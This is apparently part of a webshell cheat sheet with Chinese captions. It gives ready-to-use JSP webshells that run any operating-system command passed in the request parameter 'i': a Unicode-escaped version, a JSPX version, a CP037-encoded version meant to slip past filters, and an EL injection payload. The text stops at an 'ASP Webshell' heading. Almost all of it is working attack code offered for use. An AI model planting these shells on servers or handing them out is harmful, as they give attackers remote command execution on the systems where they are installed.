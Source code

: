 - Unicode webshell:

```
<%\u0052\u0075\u006E\u0074\u0069\u006D\u0065\u002E\u0067\u0065\u0074\u0052\u0075\u006E\u0074\u0069\u006D\u0065\u0028\u0029\u002E\u0065\u0078\u0065\u0063\u0028\u0072\u0065\u0071\u0075\u0065\u0073\u0074\u002E\u0067\u0065\u0074\u0050\u0061\u0072\u0061\u006D\u0065\u0074\u0065\u0072\u0028\u0022\u0069\u0022\u0029\u0029\u003B%>
```

(效果同 `<%Runtime.getRuntime().exec(request.getParameter("i"));%>`)

- JSPX webshell:

```
<jsp:root xmlns:jsp="http://java.sun.com/JSP/Page"
  version="1.2">
<jsp:directive.page contentType="text/html"/>
<jsp:declaration>
</jsp:declaration>
<jsp:scriptlet>
Runtime.getRuntime().exec(request.getParameter("i"));
</jsp:scriptlet>
<jsp:text>
</jsp:text>
</jsp:root>
```

- CP037 webshell:

```
Lo%C2%A7%C2%94%C2%93@%C2%A5%C2%85%C2%99%C2%A2%C2%89%C2%96%C2%95~%7F%C3%B1K%C3%B0%7F@%C2%85%C2%95%C2%83%C2%96%C2%84%C2%89%C2%95%C2%87~%7F%C2%83%C2%97%C3%B0%C3%B3%C3%B7%7Fon%25L%C2%91%C2%A2%C2%97z%C2%99%C2%96%C2%96%C2%A3@%C2%A7%C2%94%C2%93%C2%95%C2%A2z%C2%91%C2%A2%C2%97~%7F%C2%88%C2%A3%C2%A3%C2%97zaa%C2%91%C2%81%C2%A5%C2%81K%C2%A2%C2%A4%C2%95K%C2%83%C2%96%C2%94a%C3%91%C3%A2%C3%97a%C3%97%C2%81%C2%87%C2%85%7F%25@@%C2%A5%C2%85%C2%99%C2%A2%C2%89%C2%96%C2%95~%7F%C3%B1K%C3%B2%7Fn%25L%C2%91%C2%A2%C2%97z%C2%84%C2%89%C2%99%C2%85%C2%83%C2%A3%C2%89%C2%A5%C2%85K%C2%97%C2%81%C2%87%C2%85@%C2%83%C2%96%C2%95%C2%A3%C2%85%C2%95%C2%A3%C3%A3%C2%A8%C2%97%C2%85~%7F%C2%A3%C2%85%C2%A7%C2%A3a%C2%88%C2%A3%C2%94%C2%93%7Fan%25L%C2%91%C2%A2%C2%97z%C2%84%C2%85%C2%83%C2%93%C2%81%C2%99%C2%81%C2%A3%C2%89%C2%96%C2%95n%25La%C2%91%C2%A2%C2%97z%C2%84%C2%85%C2%83%C2%93%C2%81%C2%99%C2%81%C2%A3%C2%89%C2%96%C2%95n%25L%C2%91%C2%A2%C2%97z%C2%A2%C2%83%C2%99%C2%89%C2%97%C2%A3%C2%93%C2%85%C2%A3n%25%C3%99%C2%A4%C2%95%C2%A3%C2%89%C2%94%C2%85K%C2%87%C2%85%C2%A3%C3%99%C2%A4%C2%95%C2%A3%C2%89%C2%94%C2%85M%5DK%C2%85%C2%A7%C2%85%C2%83M%C2%99%C2%85%C2%98%C2%A4%C2%85%C2%A2%C2%A3K%C2%87%C2%85%C2%A3%C3%97%C2%81%C2%99%C2%81%C2%94%C2%85%C2%A3%C2%85%C2%99M%7F%C2%89%7F%5D%5D%5E%25La%C2%91%C2%A2%C2%97z%C2%A2%C2%83%C2%99%C2%89%C2%97%C2%A3%C2%93%C2%85%C2%A3n%25L%C2%91%C2%A2%C2%97z%C2%A3%C2%85%C2%A7%C2%A3n%25La%C2%91%C2%A2%C2%97z%C2%A3%C2%85%C2%A7%C2%A3n%25La%C2%91%C2%A2%C2%97z%C2%99%C2%96%C2%96%C2%A3n%25
```

(效果同上 JSPX webshell: `Runtime.getRuntime().exec(request.getParameter("i"));`)

- EL webshell:

```
${Runtime.getRuntime().exec("touch /tmp/pwned")}
```

## ASP Webshell
